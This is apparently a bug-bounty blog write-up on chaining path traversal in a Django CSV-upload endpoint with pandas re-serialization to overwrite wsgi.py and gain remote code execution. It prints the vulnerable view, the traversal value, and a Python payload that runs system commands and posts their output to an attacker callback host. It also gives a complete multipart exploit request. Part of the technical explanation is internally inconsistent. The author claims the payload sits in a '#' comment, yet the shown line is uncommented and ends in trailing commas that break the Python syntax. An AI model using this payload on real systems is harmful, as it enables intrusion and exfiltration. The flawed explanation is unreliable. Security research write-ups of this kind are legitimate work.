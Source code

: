 ```yaml
---

title: "How I Chained Directory Traversal and CSV Parser Abuse for RCE in a Django App"
date: 2025-06-16
categories: [security, django, rce]
tags: [bugbounty, csv, traversal, django, rce]

---
```


While testing a web application as part of a bug bounty program, I uncovered a critical RCE vulnerability by chaining directory traversal with a subtle CSV parsing abuse. The exploit chain involved a combination of directory traversal and subtle abuse of how the application used the `pandas` CSV parser, ultimately allowing me to overwrite the `wsgi.py` file and execute arbitrary code server-side.

## Application Behavior

The vulnerable endpoint allowed users to upload CSV files, process them using `pandas`, and save the result to disk. The target function looked something like this:

```python

        username = request.data.get("username")
        upload_file = request.FILES.get("csv_file")
        temp_path = f"/tmp/{upload_file.name}"
        with open(temp_path, "wb") as out_file:
            for chunk in upload_file.chunks():
                out_file.write(chunk)

        # Parse uploaded CSV
        df = pandas.read_csv(temp_path)

        # Determine output path
        base_dir = Path(__file__).resolve().parent.parent
        save_dir = os.path.join(base_dir, "data_store", username)
        os.makedirs(save_dir, exist_ok=True)

        final_path = os.path.join(save_dir, upload_file.name)
        if os.path.exists(final_path):
            os.remove(final_path)
        df.to_csv(final_path, index=False, encoding="utf-8")
        return Response({"status": "success"}, status=200)
    except Exception as e:
        return Response({"error": str(e)}, status=500)

```

There are two key observations here:

- The `username` field is directly used in the filesystem path without sanitization.
- The `pandas.read_csv()` and `df.to_csv()` roundtrip occurs before saving the file.

This setup made it possible to craft a payload that hijacks the file write location and executes code on the system.

## From Path Traversal to File Overwrite

The `username` field was trusted and used to construct a path like `data_store/<username>/file.csv`. I simply submitted a value like:

```
../../../../../../app/backend/backend/

```

As a result, the application wrote my uploaded file to:

```
/app/backend/backend/file.csv
```

## Crafting a Valid Payload Through CSV

The hard part was getting code into `wsgi.py` without triggering a syntax error. The app parses the file with `pandas.read_csv()` and then re-serializes it with `to_csv()`. This means my uploaded file would be rewritten before it landed in `wsgi.py`.

Here’s what `pandas.to_csv()` does:

- Writes headers by default.
- Pads rows with commas to match the maximum column count.
- Writes each cell value as a string, potentially quoting it.

So I needed my payload to:

1. Avoid being mangled during CSV parsing.
2. Still be valid Python after extra commas were appended.

The trick was to put my malicious line in a comment using `#`. This didn’t hide it from pandas—it parsed it like any other row—but ensured that any trailing junk added by `to_csv()` would be ignored by Python when the file ran. 
Python ignores everything after a `#` on a line, so even if `pandas.to_csv()` appends extra commas or whitespace, they’re treated as part of the comment and discarded by the interpreter.

Here’s the actual payload line embedded in a seemingly innocent CSV:

```python
# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

```

After going through pandas’ processing, it still looked like a comment line to Python, with enough real logic inside to get code execution and reassign `application`, satisfying Django’s expectations.

## Picking the Right Target for Code Execution

At this stage, the file overwrite was working — but to escalate it to RCE, I needed to identify a file that the application would **automatically load or execute after modification**, since I had **no direct ability to invoke the overwritten file manually**. This meant finding a server-side script that Django would re-import or re-run implicitly on access. That led me to `wsgi.py`.

## Why wsgi.py?

From the [WSGI specification](https://wsgi.readthedocs.io/en/latest/), the `wsgi.py` file exists to expose a callable named `application` that acts as the entry point for the web server to interact with a Python app. In Django, this is typically done using:

```python
from django.core.wsgi import get_wsgi_application
application = get_wsgi_application()

```

During testing, a verbose error message gave away the project’s file structure. The traceback included a path like:

```
/app/backend/backend/
```

This nested layout is exactly what you get when a Django app is created using `django-admin startproject backend` — where the outer `backend/` is the project root and the inner one holds settings, `wsgi.py`, and other core files.

That made `wsgi.py` the perfect target. I couldn’t *run* arbitrary files, only overwrite them — so I needed something the server would execute on its own. Django’s development server watches `wsgi.py` for changes and automatically reloads it when modified. That meant just touching the file was enough to trigger execution. By placing my payload inside a Python comment and ending with a clean `application = get_wsgi_application()` line, I preserved the structure Django expected while slipping in remote code execution.

## Final Exploit Request

Here’s the trimmed HTTP request used to achieve the overwrite:

```http

POST /api/endpoint HTTP/1.1
Host: target.url
Content-Type: multipart/form-data; boundary=---------------------------boundary
Cookie: session=...

-----------------------------boundary
Content-Disposition: form-data; name="fleet_csv"; filename="wsgi.py"
Content-Type: text/csv

# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

-----------------------------boundary
Content-Disposition: form-data; name="report_date"

2025-01-01
-----------------------------boundary
Content-Disposition: form-data; name="username"

../../../../../../app/backend/backend/
-----------------------------boundary--

```

The response confirmed success:

```json
{"status": "success"}
```

Seconds later, my server received the callback with command output.

## Conclusion

This exploit was possible due to:

- Unsanitized use of user input in filesystem paths.
- Unsafe file parsing and rewriting with `pandas`.
- Django’s auto-reloading behavior in debug mode.

By combining these behaviors, I was able to go from a basic file upload to full RCE on the server. The real lesson here is that even something as seemingly harmless as CSV parsing can become dangerous in the wrong context—especially when paired with filesystem access and auto-executing server files.